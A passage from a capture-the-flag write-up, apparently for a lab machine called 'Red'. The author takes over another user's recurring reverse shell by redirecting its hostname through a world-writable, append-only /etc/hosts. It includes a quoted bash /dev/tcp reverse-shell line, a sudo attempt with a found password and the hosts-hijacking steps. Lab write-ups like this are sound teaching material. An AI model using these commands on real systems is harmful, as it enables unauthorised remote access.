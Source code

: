 
### Impersonate red's reverse shell

I can see that red is getting back reverse shells using nohup

```bash
blue@red:~$ ps auxf
...
www-data    1482  0.0  0.6 193952 12648 ?        S    12:50   0:00  \_ /usr/sbin/apache2 -k start
red         2749  0.0  0.1   6972  2560 ?        S    13:15   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
blue        2777  0.2  0.5  19400 10696 ?        Ss   13:15   0:00 /lib/systemd/systemd --user
blue        2778  0.0  0.1 103232  3404 ?        S    13:15   0:00  \_ (sd-pam)
red         2891  0.0  0.1   6972  2596 ?        S    13:16   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

Tried sudo

```bash
blue@red:~$ echo 'sup3r_p@s$w0sup3r_p@s$w0' | sudo -l -S
echo 'sup3r_p@s$w0sup3r_p@s$w0' | sudo -l -S
[sudo] password for blue: Sorry, user blue may not run sudo on red.
```

According to `/etc/hosts` I gathered previously and and the reverse shell sending back to `redrules.thm`, I checked `/etc/hosts` permissions and found out everyone can write

```bash
blue@red:~$ ls -l /etc/hosts
ls -l /etc/hosts
-rw-r--rw- 1 root adm 242 Aug  5 13:45 /etc/hosts
```

Point `redrules.thm` to my ip

```bash
blue@red:~$ sed -i 's/192.168.0.1 redrules.thm/10.11.19.145 redrules.thm/' /etc/hosts
<redrules.thm/10.11.19.145 redrules.thm/' /etc/hosts
sed: couldn't open temporary file /etc/sedCZhyNb: Permission denied

blue@red:~$ sed 's/192.168.0.1 redrules.thm/10.11.19.145 redrules.thm/' /etc/hosts > /tmp/.ok
<m/10.11.19.145 redrules.thm/' /etc/hosts > /tmp/.ok

blue@red:~$ cat /tmp/.ok > /etc/hosts
cat /tmp/.ok > /etc/hosts
bash: /etc/hosts: Operation not permitted

blue@red:~$ lsattr /etc/hosts
lsattr /etc/hosts
-----a--------e----- /etc/hosts
```

Found out that I can only append hosts, although usually the row newer in hosts file will override the one after it, still worth a try

The hosts file will get changed constantly, I'll use a while loop util I get the shell
